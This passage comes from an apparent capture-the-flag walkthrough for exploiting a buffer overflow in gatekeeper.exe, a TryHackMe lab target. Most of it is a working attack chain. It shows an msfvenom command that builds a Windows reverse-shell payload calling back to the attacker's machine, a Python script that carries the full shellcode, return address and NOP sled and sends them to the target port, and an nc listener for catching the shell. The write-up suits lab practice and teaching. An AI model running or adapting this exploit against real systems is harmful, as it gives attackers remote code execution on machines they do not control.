


Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
 

We need to copy and paste this into our getting a shell template:
```Python
#!/usr/bin/python

import socket

shellcode = ("\xba\x29\xc3\x98\x0f\xda\xce\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\x7f\xcd\x7a\xfa\x83\x39\xf8"
"\x05\x7b\xba\x9d\x8c\x9e\x8b\x9d\xeb\xeb\xbc\x2d\x7f\xb9\x30"
"\xc5\x2d\x29\xc2\xab\xf9\x5e\x63\x01\xdc\x51\x74\x3a\x1c\xf0"
"\xf6\x41\x71\xd2\xc7\x89\x84\x13\x0f\xf7\x65\x41\xd8\x73\xdb"
"\x75\x6d\xc9\xe0\xfe\x3d\xdf\x60\xe3\xf6\xde\x41\xb2\x8d\xb8"
"\x41\x35\x41\xb1\xcb\x2d\x86\xfc\x82\xc6\x7c\x8a\x14\x0e\x4d"
"\x73\xba\x6f\x61\x86\xc2\xa8\x46\x79\xb1\xc0\xb4\x04\xc2\x17"
"\xc6\xd2\x47\x83\x60\x90\xf0\x6f\x90\x75\x66\xe4\x9e\x32\xec"
"\xa2\x82\xc5\x21\xd9\xbf\x4e\xc4\x0d\x36\x14\xe3\x89\x12\xce"
"\x8a\x88\xfe\xa1\xb3\xca\xa0\x1e\x16\x81\x4d\x4a\x2b\xc8\x19"
"\xbf\x06\xf2\xd9\xd7\x11\x81\xeb\x78\x8a\x0d\x40\xf0\x14\xca"
"\xa7\x2b\xe0\x44\x56\xd4\x11\x4d\x9d\x80\x41\xe5\x34\xa9\x09"
"\xf5\xb9\x7c\x9d\xa5\x15\x2f\x5e\x15\xd6\x9f\x36\x7f\xd9\xc0"
"\x27\x80\x33\x69\xcd\x7b\xd4\x56\xba\x83\x4d\x3f\xb9\x83\x98"
"\x0c\x34\x65\xc8\x62\x11\x3e\x65\x1a\x38\xb4\x14\xe3\x96\xb1"
"\x17\x6f\x15\x46\xd9\x98\x50\x54\x8e\x68\x2f\x06\x19\x76\x85"
"\x2e\xc5\xe5\x42\xae\x80\x15\xdd\xf9\xc5\xe8\x14\x6f\xf8\x53"
"\x8f\x8d\x01\x05\xe8\x15\xde\xf6\xf7\x94\x93\x43\xdc\x86\x6d"
"\x4b\x58\xf2\x21\x1a\x36\xac\x87\xf4\xf8\x06\x5e\xaa\x52\xce"
"\x27\x80\x64\x88\x27\xcd\x12\x74\x99\xb8\x62\x8b\x16\x2d\x63"
"\xf4\x4a\xcd\x8c\x2f\xcf\xfd\xc6\x6d\x66\x96\x8e\xe4\x3a\xfb"
"\x30\xd3\x79\x02\xb3\xd1\x01\xf1\xab\x90\x04\xbd\x6b\x49\x75"
"\xae\x19\x6d\x2a\xcf\x0b")

buff = "A"*146 + "\xc3\x14\x04\x08" + "\x90" * 8 + shellcode
RHOST = "192.168.0.227"
RPORT = 31337

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff+'\r\n')
s.close()
```
Before running the Python script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```


Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...


Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
